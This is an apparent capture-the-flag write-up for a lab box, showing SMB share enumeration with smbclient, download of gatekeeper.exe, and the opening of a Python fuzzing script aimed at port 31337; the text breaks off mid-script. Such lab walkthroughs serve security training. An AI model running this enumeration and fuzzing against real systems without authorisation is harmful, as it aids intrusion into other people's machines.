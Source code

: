 
so we see a wried port ```31337``` and some smb ports ```445```
lets connect to smb to look if there any share files using smbclient

```
smbclient -L 10.10.25.76
```
```
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
SMB1 disabled -- no workgroup available

```
we have a public directory, let's see what we can find in
```
smbclient //10.10.25.76/Users

Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Share                               D        0  Thu May 14 21:58:07 2020

smb: \> cd share
smb: \share\> dir
  .                                   D        0  Thu May 14 21:58:07 2020
  ..                                  D        0  Thu May 14 21:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 01:27:17 2020

smb: \share\> get gatekeeper.exe
getting file \share\gatekeeper.exe of size 13312 as gatekeeper.exe (27.8 KiloBytes/sec) (average 27.8 KiloBytes/sec)
smb: \share\> 
```
after downloading ```gatekeeper.exe``` I discovered that's the program who run on the port ```31337```
let's fuzz this program for exploit it.
I used this python script for this
```python
#!/usr/bin/python
import sys
import socket
from time import sleep


ip = "192.168.43.50" # this my windows lab ip
port = 31337 # the application targeted port
buffer = 'A' * 50 # bufer

while True:

	
	try:

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((ip, port))

```